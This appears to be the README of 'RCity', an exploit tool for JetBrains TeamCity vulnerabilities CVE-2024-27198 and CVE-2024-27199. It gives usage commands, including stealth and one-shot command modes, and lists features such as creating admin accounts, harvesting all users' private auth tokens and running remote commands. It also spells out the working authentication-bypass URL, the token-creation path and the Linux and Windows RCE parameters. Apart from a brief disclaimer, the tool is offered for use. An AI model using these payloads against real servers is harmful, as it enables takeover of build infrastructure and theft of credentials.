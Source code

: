 # RCity - CVE-2024-27198 (RCE & Admin Account Creation) & CVE-2024-27199 (Auth Bypass)
<b>Exploiting CVE-2024-27198 & CVE-2024-27199</b>

RCity is a Python script that interacts with a vulnerable TeamCity server. The CVE facilitates for unauthorised admin account creation, bypassing 403's on the domain. Whilst also achieving RCE, through the Debug/Processes route.

## Usage

To use the script, you need to provide the target TeamCity server URL as a command-line argument with the `-t` or `--target` argument: 

```bash
python3 RCity.py -t http://teamcity.com:8111
```

You can increase output verbosity with the `-v` or `--verbose` option:

```bash
python3 RCity.py -t http://teamcity.com:8111 --verbose
```

You can send one shot commands directly through `-c` or `--command` option, <b>if you want an interactive shell DO NOT use this option. </b>It is not friendly with reverse shells, as connection closes after cmd is sent:

```bash
python3 RCity.py -t http://teamcity.com:8111 -c id
```

You can ensure no POST requests are sent to the TeamCity server by using the `-s` or `--stealth` option.


```bash
python3 RCity.py -t http://teamcity.com:8111 -s
```

Disables RCE function - Everything else remains the same


```bash
python3 RCity.py -t http://teamcity.com:8111 --no-rce
```

Prevents user list from being gathered, can be time consuming on larger user lists. Skip straight to RCE with this!


```bash
python3 RCity.py -t http://teamcity.com:8111 --no-enum
```


## Features

- Admin Account Creation

- Remote Code Execution

- Generating Authorisation Tokens

- Enumerating Users

- Gatherin all Private Auth Tokens of Users

- Gathering Server Details

## Example

![image](https://github.com/Stuub/RCity-CVE-2024-27198/assets/60468836/41175f68-6051-4286-b0ab-5bac3ebab3b7)


# RCE

![image](https://github.com/Stuub/RCity-CVE-2024-27198/assets/60468836/f6279e56-1b95-4295-9b04-8ccf825a03bd)

# Token Generation


![image](https://github.com/Stuub/RCity-CVE-2024-27198/assets/60468836/a6377923-ebdc-4119-bb70-f4dcbadac084)


# Documentation

Here I'll go through the functions used in this project, to hopefully give you a better comprehension behind this exploit and the vulnerbailities associated with it.  

## Background

The nature of the vulnerability correlates between both CVE-2024-27198 & 99 due to the nature of the issue being produced from the same authentication bypass for REST API routes within JetBrains TeamCity servers. However, the impact of said vulnerability is where it interchanges, and gets interesting... CVE-2024-27198 being the real heavy hitter on paper, due to it's disclosed RCE impact, leverages the `/app/rest/debug/processes` endpoint, <b> ONLY </b> with the permissions to make the necessary requests to this endpoint, via an Auth Token. This call to this endpoint differs between Unix and Windows hosts, however is manipulated similarly, the only difference being the native shell that is provoked for a request. 

Linux - `processes?exePath=/bin/sh&params=-c&params={yourRCE_HTMLEncoded}`

Windows - `processes?exePath=cmd.exe&params=/c&params={yourRCE_HTMLEncoded}`

## Auth Bypass

Now, as mentioned prior - this isn't possible without authentication, should be safe... right? That's where the Auth Bypass comes in.

Bypassing the policy of the TeamCity build opens up the oppurtunity to make requests against the server and drop our Auth Token in there, without even technically needing our own account.

The bypass itself, is creating an alternative path to REST routes, that without going into too much detail, necessitates the control of contents in a class that's job is to handle requests, specifically those that aren't 302 (redirects), which then allows us to control it by appending 3 necessary parts into our URL.

1. An unauthenticated endpoint that will not trigger a 302, in our case `/hax`

2. A URL query parameter named `jsp` to query the API Routes, for examples sake, the `users` path `?jsp=/app/rest/users`

3. An arbitrary URI path ends with .jsp. This can be achieved by appending an HTTP path parameter segment `;.jsp`

Meaning the final payload for making unauthorised requests to the users endpoint is: `/hax?jsp=/app/rest/users;.jsp`

Now we can make requests against the users endpoint and add our own users, even Administrators!

However, before we can go to RCE, we need an Auth token, as the bearer for our RCE requests against their REST API. No issue now we have our bypass, we'll go make one!

## REST API Token Generation --> RCE

The token endpoint was following the same path tree as the previous example, it can be found at `/app/rest/users/id:{user_id}/tokens/{token_name}`. So let's craft another payload to bypass auth and create a token!

<i>(We supply our own token name for this, for this script it is a random generation of alphanumeric ascii characters).</i>

`/hax?jsp=/app/rest/users/id:{user_id}/tokens/{token_name};.jsp`

After making our POST request to add our token into our newly created user, we can now start making requests against the `/app/rest/debug/processes` route!

Nothing special about the crafting of our RCE payloads, just HTML encode your payloads in the params argument!

##

<b>Happy hacking!</b>

## References

https://www.rapid7.com/blog/post/2024/03/04/etr-cve-2024-27198-and-cve-2024-27199-jetbrains-teamcity-multiple-authentication-bypass-vulnerabilities-fixed/

https://nvd.nist.gov/vuln/detail/CVE-2024-27198

https://github.com/W01fh4cker/CVE-2024-27198-RCE

## Disclaimer

This script is for educational purposes only. Use it responsibly and only on systems you have permission to access.

